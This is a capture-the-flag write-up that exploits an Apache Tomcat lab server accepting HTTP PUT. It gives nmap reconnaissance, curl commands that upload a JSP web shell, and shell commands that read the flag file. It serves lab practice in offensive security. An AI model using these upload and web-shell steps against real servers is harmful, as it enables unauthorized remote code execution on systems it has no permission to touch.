

## Solution Steps
1. #### Reconnaissance
    * Use `ip a` to find the Attacker's ip address, then use that to scan the network
    * Use `nmap 192.168.222.0/24` to find that 192.168.222.42 has port 8080 open
    * Going to `192.168.222.42:8080` in our browser reveals the Apache Tomcat download base page
        * Can also find the hint here - *I sure hope someone doesn't PUT anything malicious*
    * Search vulnerabilities for the listed version of Tomcat
    * Test PUT with `curl -X PUT --data "test" http://192.168.222.42:8080/test.txt`
        * Further test PUT with a generic jsp file
        * Check that it worked successfully, time to get evil

2. #### Craft a jsp to access flag.txt 
    * Can probably do in more ways than one
    * Attached is `shell.jsp` that allows you to run any command in the browser :)
        * Code mostly from [this breakdown of the exploit](https://youtu.be/eqC_-Ijhe0I?si=4mUMKVVjtXDK4FAg)

3. #### PUT the jsp on the server  
    * Upload your jsp. Continuing with my shell example, but premise is the same
    * `curl -X PUT http://192.168.222.42:8080/shell.jsp/ -d @- < shell.jsp`
    * Open `http://192.168.222.42:8080/shell.jsp` in the browser
    * You should see the box to type commands in and the button to run (pictured in next section)
    
4. #### Remote Code Execution
    * Use `ls` to find the following results:

        
        * To view the desktop, use `ls home/kali/Desktop`
        * The flag.txt file appears!
    * Retrieve contents with `cat home/kali/Desktop/flag.txt`
    
Captured the flag: **PUTthe$intheflag**
